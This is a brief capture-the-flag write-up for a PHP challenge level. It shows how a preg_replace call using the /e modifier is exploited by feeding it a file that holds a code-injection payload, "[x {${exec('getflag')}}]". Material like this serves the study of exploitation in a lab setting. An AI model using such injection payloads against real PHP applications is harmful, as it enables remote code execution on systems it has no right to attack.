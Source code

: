 # Steps

1) open level06.php file
3) put the string "[x {${exec('getflag')}}]" into a file in /tmp
2) run level06.php with the new file as argoument, to exploit the function preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)
